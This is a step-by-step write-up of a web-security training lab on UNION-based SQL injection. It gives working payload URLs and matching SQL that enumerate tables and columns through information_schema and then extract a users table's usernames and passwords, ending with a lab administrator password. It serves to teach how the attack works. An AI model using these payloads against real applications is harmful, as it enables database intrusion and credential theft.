



# Lab: SQL injection attack, listing the database contents on non-Oracle databases
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.

## Examining a non Oracle database
List the tables of the database:
```sql
SELECT * FROM information_schema.tables
```

List the columns of a table called 'Users':
```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

## Solution
Determine the amount of columns for the UNION attack:
```
https://0a8e005c048754418187e3b400ba00a8.web-security-academy.net/filter?category=Pets%27+union+select+null,null+--+
```
The structure seems like in the labs before. So we skip the datatype test at this point.

After that we query the tables of the database:
```
https://0a8e005c048754418187e3b400ba00a8.web-security-academy.net/filter?category=Pets%27+union+select+null,table_name+from+information_schema.tables+--+
```

The corresponding SQL statement looks like this:
```sql
SELECT name, description FROM products WHERE category = 'Pets' UNION SELECT NULL,TABLE_NAME FROM information_schema.tables --
```

And gives some kind of the following response:


Scrolling through the entries, we find an interesting table: `users_aydwzp`

Investigating the columns of this table:
```
https://0a8e005c048754418187e3b400ba00a8.web-security-academy.net/filter?category=Pets%27+union+select+null,column_name+from+information_schema.columns+where+table_name=%27users_aydwzp%27+--+
```
```sql
SELECT name, description FROM products WHERE category = 'Pets' UNION SELECT NULL,COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME = 'users_aydwzp' -- 
```

The table contains the columns `password_aynwgj` and `username_rigeck`. Seems like that what we are looking for:



In the last step we have to query the content of those columns:
```
https://0a8e005c048754418187e3b400ba00a8.web-security-academy.net/filter?category=Pets%27+union+select+username_rigeck,password_aynwgj+from+users_aydwzp+--+
```
```sql
SELECT name, description FROM products WHERE category = 'Pets' UNION SELECT username_rigeck,password_aynwgj FROM users_aydwzp -- 
```

As we see, we got our administrator login with the password `umdpkx1cqsd6dsijd3wo`.


If we login with those credentials, the lab is solved.
